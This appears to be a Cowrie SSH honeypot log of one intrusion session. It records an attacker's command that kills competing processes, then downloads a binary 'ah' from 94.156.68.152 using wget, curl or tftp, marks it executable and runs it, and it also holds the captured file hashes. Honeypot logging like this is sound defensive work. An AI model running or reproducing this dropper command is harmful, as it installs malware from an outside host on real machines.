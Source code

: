 ```json
{"eventid":"cowrie.command.input","input":"for dir in /proc/[0-9]*; do grep -q \"(deleted)\" \"$dir/maps\" && echo \"Killing process with PID: $(basename $dir)\" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah","message":"CMD: for dir in /proc/[0-9]*; do grep -q \"(deleted)\" \"$dir/maps\" && echo \"Killing process with PID: $(basename $dir)\" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah","sensor":"","timestamp":"2023-11-30T01:42:07.457483Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"basename $dir","message":"CMD: basename $dir","sensor":"","timestamp":"2023-11-30T01:42:07.458423Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"basename $dir","message":"Command not found: basename $dir","sensor":"","timestamp":"2023-11-30T01:42:07.460015Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"basename $dir","message":"CMD: basename $dir","sensor":"","timestamp":"2023-11-30T01:42:07.460604Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"basename $dir","message":"Command not found: basename $dir","sensor":"","timestamp":"2023-11-30T01:42:07.461404Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"for dir in /proc/ [ 0-9 ] *","message":"Command not found: for dir in /proc/ [ 0-9 ] *","sensor":"","timestamp":"2023-11-30T01:42:07.462472Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"deleted $dir/maps","message":"Command not found: deleted $dir/maps","sensor":"","timestamp":"2023-11-30T01:42:07.463262Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.session.file_download","url":"http://94.156.68.152/ah","outfile":"var/lib/cowrie/downloads/fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054","shasum":"fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054","sensor":"","timestamp":"2023-11-30T01:42:07.748981Z","message":"Downloaded URL (http://94.156.68.152/ah) with SHA-256 fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054 to var/lib/cowrie/downloads/fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.session.file_download","url":"http://94.156.68.152/ah","outfile":"var/lib/cowrie/downloads/fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054","shasum":"fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054","sensor":"","timestamp":"2023-11-30T01:42:08.032984Z","message":"Downloaded URL (http://94.156.68.152/ah) with SHA-256 fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054 to var/lib/cowrie/downloads/fe9291a4727da7f6f40763c058b88a5b0031ee5e1f6c8d71cc4b55387594c054","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.session.file_download.failed","url":"http://94.156.68.152/ah","sensor":"","timestamp":"2023-11-30T01:42:23.066389Z","message":"Attempt to download file(s) from URL (http://94.156.68.152/ah) failed","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.session.file_download","duplicate":false,"outfile":"var/lib/cowrie/downloads/199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8","shasum":"199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8","destfile":"/tmp/rootsenpai","message":"Saved redir contents with SHA-256 199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8 to var/lib/cowrie/downloads/199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8","sensor":"","timestamp":"2023-11-30T01:42:57.566448Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.log.closed","ttylog":"var/lib/cowrie/tty/35418a8d6dcb23a0ee6716fc1f7ae2255bd9f34584706ff5b8c6f8f42b98100f","size":2745,"shasum":"35418a8d6dcb23a0ee6716fc1f7ae2255bd9f34584706ff5b8c6f8f42b98100f","duplicate":false,"duration":50.38083243370056,"message":"Closing TTY Log: var/lib/cowrie/tty/35418a8d6dcb23a0ee6716fc1f7ae2255bd9f34584706ff5b8c6f8f42b98100f after 50 seconds","sensor":"","timestamp":"2023-11-30T01:42:57.567406Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.session.closed","duration":51.115936279296875,"message":"Connection lost after 51 seconds","sensor":"","timestamp":"2023-11-30T01:42:57.643806Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.session.connect","src_ip":"204.76.203.13","src_port":54330,"dst_ip":"172.31.5.68","dst_port":2222,"session":"651b145b8fb8","protocol":"ssh","message":"New connection: 204.76.203.13:54330 (172.31.5.68:2222) [session: 651b145b8fb8]","sensor":"","timestamp":"2023-11-30T01:42:06.527180Z"}
{"eventid":"cowrie.client.version","version":"SSH-2.0-libssh2_1.10.0","message":"Remote SSH version: SSH-2.0-libssh2_1.10.0","sensor":"","timestamp":"2023-11-30T01:42:06.528321Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
```